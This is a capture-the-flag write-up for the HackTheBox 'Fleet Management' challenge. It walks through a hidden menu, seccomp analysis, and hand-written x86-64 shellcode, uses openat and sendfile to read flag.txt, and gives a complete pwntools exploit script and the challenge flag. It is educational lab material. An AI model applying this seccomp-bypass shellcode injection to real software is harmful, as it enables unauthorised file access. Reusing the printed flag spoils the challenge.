 # Fleet Management
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8fd6fc1c-46e4-4cfd-99e8-b9bdba7077a6)


## Lessons Learned:
1. Bypassing secure-computing (seccomp) rules.
2. Crafting custom shellcode.

## DESCRIPTION:
Reading through an Underground Intergalactic hacking forum Bonnie stumbles upon a post talking about a backdoor in the Gold Fang’s Spaceship Fleet Management System. 
There is a note about a twist added by the author to prevent anyone from using the backdoor. 
Will Bonnie achieve to gain access to Gold Fang’s internal network and retrieve precious documents?

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/01e498a8-ad99-4299-8d88-13f78a1cc1d6)


> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/2de5a421-f79f-4f92-ae29-8249a21a1476)


2. After decompiled the binary, it looks like there's a hidden menu which calls the **beta_feature()** function.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/1ead0cbe-4f84-4235-ad05-5931745906c3)


3. There's a chance we can do shellcode injection even though the NX are disabled.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c624695a-1467-4a47-88fd-cc9bf0dcaa64)


4. But the problem is, we have `seccomp()`. (`skid_check()`)

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/8e136aaf-b7b8-4b49-9251-7b0c2395b8c6)


5. To be precise what are the seccomp applied, we can run:

```
sudo seccomp-tools dump ./fleet_management
```

6. Then open menu number 9 and input random strings.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f852dc59-3304-43c6-9618-4abd9788615b)


7. The interesting part here, the binary using **openat()** which is more secure than **open()**, it does took me a while to solved this.
8. Since there are seccomp, hence the objective here is to cat the flag rather spawn the shell.
9. To do that we can utilize `sendfile` & `openat`.
10. Here are the asm code we want to inject:

```asm
xor rdx, rdx ; set rdx to 0
push rdx ; push it to the stack
mov rax, 0x7478742e67616c66 ; stores flag.txt
push rax ; push it to the stack
mov rsi, rsp ; move what's on the stack to rsi(set filename address to stack address)
mov rdi, -100 ; set rdi as file descriptor (fd) pointing to AT_FDCWD
mov rax, 257 ; do the sys_openat()
syscall

xor rdi, rdi ; set rdi to 0
xor rdx, rdx ; set rdx to 0
mov rsi, rax ; move rax, rsi (set file descriptor [fd] to openat() result
mov r10, 0x100 ; set length to read the flag.txt
mov rax, 40 ; do the sys_sendfile()
syscall
```

11. Here's the full script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './fleet_management'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

sh.sendlineafter(b'do? ', b'9')

shell = """
xor rdx, rdx
push rdx
mov rax, 0x7478742e67616c66
push rax
mov rsi, rsp
mov rdi, -100
mov rax, 257
syscall

xor rdi, rdi
xor rdx, rdx
mov rsi, rax
mov r10, 0x100
mov rax, 40
syscall
"""
shellcode = asm(shell)
sh.sendline(shellcode)

sh.interactive()
```

> RUN SCRIPT REMOTELY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/24937d66-919f-45fc-aeaa-c7c8b9928d23)


12. Got the flag!

## FLAG
```
HTB{sh3llc0d3_45_4_b4ckd00r}
```
